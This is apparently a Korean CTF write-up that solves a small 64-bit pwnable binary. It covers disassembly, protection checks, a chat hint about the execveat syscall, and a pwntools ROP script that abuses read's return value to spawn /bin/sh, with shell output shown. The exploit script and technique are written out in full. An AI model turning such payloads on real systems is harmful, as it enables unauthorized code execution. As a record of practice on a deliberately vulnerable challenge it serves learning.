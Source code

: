 # 상준이가 문제 줌#4

![ScreenShot](CTF_Writeup/s0ngsaris_study/Homework/image/sc1.JPG)  

---

문제를 풀 때 당시 64bit pwnable은 아직 익숙하지 않았다.  

일단 IDA로 해당 파일을 열어보았다.

```
.text:00000000004000B0                 xor     rax, rax
.text:00000000004000B3                 xor     rbx, rbx
.text:00000000004000B6                 xor     rcx, rcx
.text:00000000004000B9                 xor     rdx, rdx
.text:00000000004000BC                 xor     rdi, rdi
.text:00000000004000BF                 xor     rsi, rsi
.text:00000000004000C2                 xor     r8, r8
.text:00000000004000C5                 xor     r9, r9
.text:00000000004000C8                 xor     r10, r10
.text:00000000004000CB                 xor     r11, r11
.text:00000000004000CE                 xor     r12, r12
.text:00000000004000D1                 xor     r13, r13
.text:00000000004000D4                 xor     r14, r14
.text:00000000004000D7                 xor     r15, r15
.text:00000000004000DA                 xor     rbp, rbp
.text:00000000004000DD                 call    sub_4000F2
.text:00000000004000E2                 mov     eax, 3Ch
.text:00000000004000E7                 xor     rdi, rdi
.text:00000000004000EA                 xor     rsi, rsi
.text:00000000004000ED                 xor     rdx, rdx
.text:00000000004000F0                 syscall
```

젠장 끝이다... 어셈으로 짜여진 파일인것 같다.

우선 xor 연산을 통해 보이는 레지스터의 값을 모두 0으로 만든다

그리고 sub_4000F2 함수를 call 한다. 저기에 뭐가 있는지 봐야겠지?

```
4000f2:       48 81 ec 28 01 00 00    sub    $0x128,%rsp
4000f9:       48 89 e6                mov    %rsp,%rsi
4000fc:       ba 48 01 00 00          mov    $0x148,%edx
400101:       0f 05                   syscall
```

#### ~FUCKING

0x128(296)byte 만큼의 공간을 할당한다 그리고 rsi 레지스터에 해당 값을 넣는다.

그리고 edx(rdx) 에 0x148을 넣는다. 그리고 syscall 을 통해 특정 함수를 호출한다.

자 이제 어떤 함수일까...

먼저 rax 가 0이므로 64bit systemcall number 0인 read 함수가 호출된다.

rdx 또한 0으로 초기화 되어 있고 rsi rdx 에 어떤 값이 들어가는 지 알고 있다.

이걸 대충 C언어로 바꾸면 다음과 같다.

```c
#include <stdio.h>

int main()
{
    read(0, buf, 148);
}
```
혹시 그럴리 없겠지만 syscall number를 모를 경우 디버깅을 통해 확인할 수 있다.

```
RAX  0x0
RBX  0x0
RCX  0x0
RDX  0x148
RDI  0x0
RSI  0x7fffffffe470 ◂— 0x0
R8   0x0
R9   0x0
R10  0x0
R11  0x0
R12  0x0
R13  0x0
R14  0x0
R15  0x0
RBP  0x0
RSP  0x7fffffffe470 ◂— 0x0
RIP  0x400101 ◂— syscall
─────────────────────────────────[ DISASM ]─────────────────────────
  0x4000f2    sub    rsp, 0x128
  0x4000f9    mov    rsi, rsp
  0x4000fc    mov    edx, 0x148
► 0x400101    syscall  <SYS_read>
       fd: 0x0
       buf: 0x7fffffffe470 ◂— 0x0
       nbytes: 0x148
```

흠 우선 풀기 전에 어떤 보호 기법이 적용되어 있는지 확인해볼 필요가 있다.

```
secretpack@ubuntu:~/Desktop$ pwn checksec attackme
[*] '/home/secretpack/Desktop/attackme'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
NX enable 이므로 shellcode를 쓸 수가 없다.

그렇다면 다른 방법을 강구해야 한다. 검색을 하던중 [Sigreturn을 이용한 SROP](https://www.lazenca.net/plugins/servlet/mobile?contentId=16810278#content/view/16810278)와 관련된 문서를 보게 되었다. 이를 시도 했으나 64bit에서 sigreturn 함수의 systemcall number는 15 이다. 방법이 없지는 않겠지만 내가 알고있는 선에서는 이 방법을 사용해 풀 수가 없다는 판결을 내렸다.

그리고 상준이가 문제 해결을 위한 힌트를 줬다.

```
[상준] [오후 9:58] 자
[상준] [오후 9:58] 힌트준다
[상준] [오후 9:58] 64bit에서는
[상준] [오후 9:58] execveat이라는
[상준] [오후 9:58] 엄청난 시스콜이잇다
[상준] [오후 9:59] 한번 검색해서봐라
```

##### 검색해보자!

```c
#include <unistd.h>

int execveat(int dirfd, const char *pathname,
             char *const argv[], char *const envp[], int flags);
```
인자가 엄청 많은데...

manpage 를 잘 읽어보면 이 함수를 사용하여 /bin/sh를 실행할 수 있다.

```c
execveat(0,"/bin/sh",NULL,NULL,0);
```

요롷게 들어가면 쉘이 실행된다고 한다.

혹시나!! ROPGadget을 이용해서 pop rax 가젯이 있는지 먼저 찾아봤다.

```
secretpack@ubuntu:~/Desktop$ ROPgadget --binary attackme
Gadgets information
============================================================
0x0000000000400108 : add byte ptr [rax], al ; ret
0x0000000000400104 : add esp, 0x128 ; ret
0x0000000000400103 : add rsp, 0x128 ; ret
0x000000000040010a : ret
0x0000000000400106 : sub byte ptr [rcx], al ; add byte ptr [rax], al ; ret
0x0000000000400101 : syscall ; add rsp, 0x128 ; ret
```

역시나 없다..

read 함수의 manpage를 읽어보면 read함수는 입력받은 문자열의 길이를 return 한다고 나와있다. 함수의 리턴값은 rax 레지스터에 저장된다. 어??? 이것을 이용하여 공격을 하면 될것 같다.

execveat 함수에 들어가는 rsi는 파일 이름이고 read 함수의 rsi는 입력값이다.
그렇다면 익스플로잇 코드를 작성할때 "/bin/sh\x00"를 앞에 쓰고 그 뒤에 버퍼를 채워주면
실질적인 문자열은 /bin/sh이므로 execveat() 함수의 두번째 인자에 저 문자열을 전달 할 수 있다.

##### 2018.12.19
최종적으로 문제풀이를 완료 했다.
익스플로잇 코드를 작성하였으나 뜻대로 들어가지 않았고 본의 아니게 삽질 했다.
rdx 레지스터가 이상한 값으로 세팅되어 있어서 그랬다...

xor rdx, rdx 를 가져와 문제 풀이에 사용하였고 성공했다.

```python
from pwn import*

p = remote("./attackme")

syscall = 0x400101
zero_rdx = 0x4000ed

payload = "/bin/sh\x00"
# payload += "A" * (0x128 - 8)
payload += "A" * (0x148 - (8 * 4) - 8) # 실제로 ret 부분 앞까지 계산
payload += p64(zero_rdx)
payload += p64(syscall)
payload += "A" * (0x142 - len(payload) - 1) # execveat

p.sendline(payload)
p.interactive()
```
```
secretpack@ubuntu:~/Desktop$ python test.py
[+] Starting local process './attackme': pid 59820
[*] Switching to interactive mode
$ id
uid=1000(secretpack) gid=1000(secretpack) groups=1000(secretpack),4(adm)
$  

```
힘들었다... 당분간은 디버깅 연습을 많이 해야 겠다.
